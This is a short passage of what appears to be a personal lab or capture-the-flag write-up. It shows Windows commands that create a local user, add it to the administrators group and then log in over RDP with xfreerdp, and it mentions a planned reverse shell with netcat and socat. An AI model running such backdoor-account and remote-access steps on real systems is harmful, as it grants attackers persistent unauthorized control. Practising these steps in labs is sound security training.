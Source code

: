 
```
net user [username] [password] /add
```


```
net localgroup administrators [username] /add
```

![[Pasted image 20240723203028.png]]

We have added the user and will try to RDP now

```
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.136.169 /u:testing /p:'testing123'
```

Was able to add the user and got the RDP 
![[Pasted image 20240723203305.png]]


Will get reverse shell through windows using netcat and socat

